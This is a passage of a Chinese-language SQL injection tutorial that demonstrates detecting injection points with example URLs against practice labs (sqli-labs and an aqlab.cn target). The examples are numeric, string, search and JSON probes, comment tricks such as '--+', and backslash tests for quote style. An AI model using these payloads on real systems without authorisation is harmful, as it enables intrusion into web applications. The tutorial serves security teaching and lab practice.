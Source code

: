 ```
http://pu2lh35s.ia.aqlab.cn/?id=1 and 1=0
```

> 报错则说明存在 sql 注入

修改逻辑使之正常访问

```
http://pu2lh35s.ia.aqlab.cn/?id=1 and 1=1
```

### 5.2 字符型

尝试传递特殊字符 `` `

```
http://192.168.1.76/sqli-labs/Less-1/?id=1'
```

> 当传递 `'` 时报错

添加注释使之正常访问

```
http://192.168.1.76/sqli-labs/Less-1/?id=1' --+
```

> 在 mysql 中提交 `+` 相当于空格

或者手动闭合

```
http://192.168.1.76/sqli-labs/Less-1/?id=1' and '1
```

> 返回正常说明存在 SQL 注入

### 5.3 搜索型（待补充）

```
1%' and 1=1 and '%'='
```

### 5.4 json型（待补充）

```
{
    "id":"1 and 1=1"
}
```

## 6 判断闭合方式

### 6.1 字符型

输入反斜杠 `\` 来判断页面使用的哪种闭合方式

```
http://192.168.1.76/sqli-labs/Less-1/?id=1\
```
